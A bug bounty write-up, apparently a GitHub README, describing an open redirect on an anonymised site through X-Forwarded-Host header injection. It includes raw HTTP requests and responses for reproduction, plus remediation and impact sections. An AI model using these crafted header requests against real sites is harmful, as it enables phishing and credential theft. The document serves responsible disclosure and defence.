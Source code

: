 # Open-redirect-On-XYZ.com-Via-X-Forwarded-Host-Header
xyz.com is the made up website domain of a company I found the vulnerability on Hackerone , will keep the real name confidential.

# Description
I noticed that the below requests was vulnerable to an open redirect via the host header injection, because the url redirection link is gotten from the host header value and it is not verified thus allowing me to redirect a user to another website similar to the login page and steal user credentials.


Request
```plaintext
GET /login HTTP/1.1
Host: atlas.xyz.tools
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:97.0) Gecko/20100101 Firefox/97.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,/;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://atlas.xyz.tools/
Connection: close
-----------snip---------------------------
Response
-------------------snip--------------------------
<html><body>You are being <a href="https://atlas.xyz.tools/auth/saml?redirectUrl=https://atlas.xyz.tools">redirected</a>.</body></html>

```

# Steps To Reproduce

I will be using google.com and facebook.com as an example of a malicious hacker website.

STEP 1 : Visit atlas.xyz.com and capture the request below with burpsuite and send to the repeater.
```plaintext
GET /login HTTP/1.1
Host: atlas.xyz.tools
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:97.0) Gecko/20100101 Firefox/97.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,/;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://atlas.xyz.tools/
Connection: close
-----------snip---------------------------
```
STEP 2: Modify the request by adding X-Forwarded-Host: facebook.com or google.com.

Note: This can also be done by modifying the Host header value but when X-Forwarded-Host Header is present within the request, the redirect url is gotten from the value of the X-Forwarded-Host Header instead of the Host Header.


The request when modified should be as this below :
```plaintext
GET /login HTTP/1.1
Host: atlas.xyz.tools
X-Forwarded-Host: facebook.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:97.0) Gecko/20100101 Firefox/97.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,/;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://atlas.xyz.tools/
Connection: close
-----------snip---------------------------
send the request via the repeater , response should be
-----------snip-------------------------------
<html><body>You are being <a href="https://facebook.com/auth/saml?redirectUrl=https://facebook.com">redirected</a>.</body></html>
```

</br>
<div align="center">
  <img src="Kali_2020_x64_Customized_by_zSecurity_v1.2__Running__-_Oracle_VM_VirtualBox_25_02_2022_05_02_08.png" alt="Project Image">
</div>


Following the redirection.......
```plaintext
GET /auth/saml?redirectUrl=https://facebook.com HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:97.0) Gecko/20100101 Firefox/97.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,/;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://atlas.xyz.tools/
Connection: close
Upgrade-Insecure-Requests: 1
Host: facebook.com
```

Another request I was able to get a redirect easily was with the request below
```plaintext
GET / HTTP/1.1
Host: atlas.xyz.tools
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:97.0) Gecko/20100101 Firefox/97.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,/;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
X-Forwarded-Host: facebook.com
--------------------snip------------------------
```
Response
```plaintext
------------------snip--------------------------------------
<a class="btn btn-primary btn-lg" role="button" id="sign_in" href="https://facebook.com/login">Sign in</a>
```
</br>
<div align="center">
  <img src="Burp_Suite_Community_Edition_v2020.12.1_-_Temporary_Project_27_02_2022_12_04_48.png" alt="Project Image">
</div>
</br>
Request the response in browser session</br>

<p>As soon as the sign in button is clicked the user is redirected to a facebook.com instead of atlas.xyz.tools/login.</p>

# Remediation

This open redirection is possible because of unvalidated inputs gotten from the header requests. The redirection url is gotten from the host header but when the X-Forwarded-Host header is present, it can override the Host header value even if it is the correct redirection url thus the way to prevent this attack is to disable the X-Forwarded-Host Header and validate the host header value by maybe a whitelist.

# Impact

If you have an open redirection vulnerability, it makes many other attacks possible:

1). <b>Phishing :</b> The most obvious way to use an open redirect is to steer the victim away from the original site to a site that looks the same, steal user credentials, and then return to the vulnerable website as if nothing happened.

2). <b>Cross-site Scripting (XSS):</b> If the redirect allows the use of data: or javascript: protocols and the client supports such protocols in redirects, it makes it possible for the attacker to perform an XSS attack.

3). <b>Server-Side Request Forgery (SSRF):</b> Open redirects may be used to evade SSRF filters.

4). <b>Content-Security-Policy bypassing:</b> If you use CSP to protect against XSS and one of the whitelisted domains has an open redirect, this vulnerability may be used to bypass CSP.

5). <b>CRLF Injection:</b> If the redirection parameter allows line breaks, the attacker may try to perform response header splitting.

# Summary

Redirects are a common part of website operations but can cause application security risks when carelessly implemented.

An open redirect endpoint accepts un-trusted inputs as the target URL, allowing attackers to redirect users to a malicious website and opening up a wide array of attack vectors. Exploitation can be as simple as manually changing a URL parameter value to an attacker-controlled site.

